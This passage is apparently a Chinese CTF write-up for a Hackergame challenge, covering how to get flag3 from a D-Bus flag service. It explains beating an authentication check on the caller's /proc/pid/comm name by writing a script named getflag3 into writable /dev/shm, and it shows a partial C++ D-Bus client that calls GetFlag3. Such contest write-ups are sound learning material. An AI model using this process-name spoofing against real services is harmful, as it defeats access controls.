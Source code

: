 再看flag3。这次不用传参数了，但是有一坨看起来像鉴权的代码。问一下gpt，gpt说是获取发送消息进程的pid。后面会通过读`/proc/pid/comm`的方式检查这个文件名是不是`getflag3`。由于我们上传的文件名是executable，所以直接跑是不行的。但熟悉hg infra的同学都知道，虽然根目录挂载的是不可写的，但是`/dev/shm`是有写入权限的。简单测试一下后发现还真的能写，于是我们直接传个bash脚本，写一个`getflag3`然后执行就可以。

```cpp
#include <dbus/dbus.h>
#include <iostream>
#include <fcntl.h>   // for open()
#include <unistd.h>  // for close()
#include <string>
#include <errno.h>
#include <cstring>

void check_and_exit_on_error(DBusError &err) {
    if (dbus_error_is_set(&err)) {
        std::cerr << "D-Bus Error: " << err.name << " - " << err.message << std::endl;
        dbus_error_free(&err);
        exit(1);
    }
}

int main() {
    DBusError err;
    DBusConnection* conn;
    DBusMessage* msg;
    DBusMessage* reply;
    DBusMessageIter args;
    bool stat;
    char* response;

    // 初始化 D-Bus 错误变量
    dbus_error_init(&err);

    // 连接到 system bus
    conn = dbus_bus_get(DBUS_BUS_SYSTEM, &err);
    check_and_exit_on_error(err);
    if (!conn) {
        std::cerr << "Failed to connect to the D-Bus daemon." << std::endl;
        return 1;
    }

    // 创建方法调用消息
    msg = dbus_message_new_method_call(
        "cn.edu.ustc.lug.hack.FlagService",   // 服务名
        "/cn/edu/ustc/lug/hack/FlagService",  // 目标对象路径
        "cn.edu.ustc.lug.hack.FlagService",   // 接口名
        "GetFlag3"                            // 方法名
    );

    if (!msg) {
        std::cerr << "Failed to create message." << std::endl;
        return 1;
    }

    std::cout << "Appending arguments..." << std::endl;

    // 使用 DBUS_TYPE_UNIX_FD 来传递文件描述符
    dbus_message_iter_init_append(msg, &args);
    // if (!dbus_message_iter_append_basic(&args, DBUS_TYPE_UNIX_FD, &pipefd[0])) {
    //     std::cerr << "Failed to append file descriptor to message." << std::endl;
    //     return 1;
    // }

    std::cout << "Sending message..." << std::endl;
```